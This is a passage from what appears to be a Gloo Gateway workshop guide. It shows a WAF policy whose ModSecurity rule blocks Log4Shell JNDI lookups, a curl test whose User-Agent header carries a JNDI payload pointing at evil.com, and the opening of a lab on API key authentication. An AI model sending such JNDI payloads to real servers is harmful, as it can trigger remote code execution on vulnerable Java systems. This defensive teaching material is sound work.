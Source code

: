 ```yaml
kubectl apply -f - <<'EOF'
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4jshell
  namespace: dev-team
spec:
  applyToRoutes:
  - route:
      labels:
        route: httpbin ##### NOTE
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
          "@rx \${jndi:(?:ldaps?|iiop|dns|rmi)://" 
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

4. Try the previous request again.

```sh
curl -ik -X GET -H "User-Agent: \${jndi:ldap://evil.com/x}" http://$GLOO_GATEWAY/httpbin/get
```

Note that the request is now blocked with the custom intervention message from the WAF policy.

```sh
HTTP/2 403
content-length: 27
content-type: text/plain
date: Wed, 18 May 2022 21:20:34 GMT
server: istio-envoy

Log4Shell malicious payload
```

Your frontend app is no longer susceptible to `log4j` attacks, nice!

### Lab 9 - Authentication / API Key <a name="Lab-9"></a>

API key authentication is one of the easiest forms of authentication to implement. Simply create a Kubernetes secret that contains the key and reference it from the `ExtAuthPolicy`. It is recommended to label the secrets so that multiple can be selected and more can be added later. You can select any header to validate against.

1. Create two secrets that Gloo will validate against. One with the api-key `admin` and the other `developer`.

